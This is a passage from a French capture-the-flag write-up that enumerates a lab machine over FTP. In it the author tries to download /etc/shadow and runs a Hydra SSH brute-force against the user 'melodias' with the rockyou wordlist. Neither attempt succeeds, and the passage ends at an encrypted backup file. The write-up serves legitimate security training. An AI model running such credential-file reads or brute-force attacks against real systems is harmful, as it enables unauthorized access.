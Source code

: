 ```bash
ftp> cd /etc
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||54445|)
150 Here comes the directory listing.
[...Expurgé pour brièveté...]
-rw-r-----    1 0        42           1014 Aug 11  2019 shadow
[...Expurgé pour brièveté...]
226 Directory send OK.
ftp> get shadow
local: shadow remote: shadow
229 Entering Extended Passive Mode (|||64609|)
550 Failed to open file.
```

### 3.2 Force brute avec {% include dictionary.html word="Hydra" %}

Nous tentons donc de trouver le mot de passe de l'utilisateur "melodias" par la force brute et l'outil {% include dictionary.html word="Hydra" %} sur le service {% include dictionary.html word="SSH" %} sans grand succès.

```bash
hydra -l 'melodias' -P /usr/share/wordlists/rockyou.txt 10.10.106.181 ssh -v
```

{% capture spoil %}
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-31 15:33:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.106.181:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://melodias@10.10.106.181:22
[INFO] Successful, password authentication is supported by ssh://10.10.106.181:22
[ERROR] could not connect to target port 22: Socket error: Connection reset by peer
[ERROR] ssh protocol error
[...Expurgé pour brièveté...]
{% endcapture %}
{% include elements/spoil.html %}

### 3.3 Contenu chiffré

En analysant davantage le serveur {% include dictionary.html word="FTP" %}, un dossier nous interpelle : **notread**. Il contient des données chiffrées, et une clé {% include dictionary.html word="GPG" %} privée.

```bash
ls
229 Entering Extended Passive Mode (|||36402|)
150 Here comes the directory listing.
[...Expurgé pour brièveté...]
drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread
[...Expurgé pour brièveté...]
226 Directory send OK.
ftp> cd notread
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||35540|)
150 Here comes the directory listing.
-rwxrwxrwx    1 1000     1000          524 Aug 11  2019 backup.pgp
```